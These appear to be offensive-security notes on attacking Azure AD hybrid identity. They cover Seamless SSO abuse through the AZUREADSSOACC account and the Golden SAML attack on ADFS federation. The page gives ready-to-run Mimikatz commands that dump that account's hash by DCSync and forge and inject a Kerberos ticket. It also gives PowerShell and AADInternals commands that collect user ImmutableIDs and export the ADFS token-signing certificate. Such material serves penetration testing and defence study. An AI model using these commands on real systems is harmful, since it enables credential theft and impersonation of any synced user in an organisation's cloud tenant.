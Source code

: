 * Azure AD Seamless SSO automatically signs users in when they are on on-prem domain-joined machine. There is no need to use passwords to log in to Azure AD and on-prem applications.
* Supported by both PHS and PTA.
* When Seamless SSO is enabled, a computer account **AZUREADASSOC** is created in the on-prem AD. This account's Kerberos decryption key is shared with Azure AD.
* Azure AD exposes an endpoint (https://autologon.microsoftazuread-sso.com) that accepts Kerberos tickets. Domain-joined machine's browser forwards the tickets to this endpoint for SSO.

By compromising the NTLM hash of the computer account **AZUREADASSOC**, it's possible to create ST that can be used from any machine connected to the internet:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.corp /dc:dc.domain.corp"'
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:domain.corp /rc4:<> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
```

#### Federation - ADFS

* In case of federation, a trust is established between unrelated parties like on-prem Active Directory and Azure AD.
* In Federation, all authentication occurs in the on-prem environment and the user experiences SSO across all the trusted environments.
* Users can access cloud applications by using their on-prem credentials.
* A user is identified by **ImmutableID**. It is globally unique and stored in Azure AD.
* In ADFS, SAML Response is signed by a token-signing certificate.
* If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
* The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine => **Golden SAML attack**

**Lateral Movement - On-Prem to Cloud**

Get the ImmutableID of a user:

```powershell
#From any on-prem machine
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())

#From the ADFS server
Get-AdfsProperties |select identifier

#From Azure AD
Get-MsolDomainFederationSettings -DomainName corp.com | select IssuerUri
```

With DA privileges on-prem, extract the ADFS **token signing certificate** from the ADFS server using **AADInternals**:

```powershell
Export-AADIntADFSSigningCertificate
```

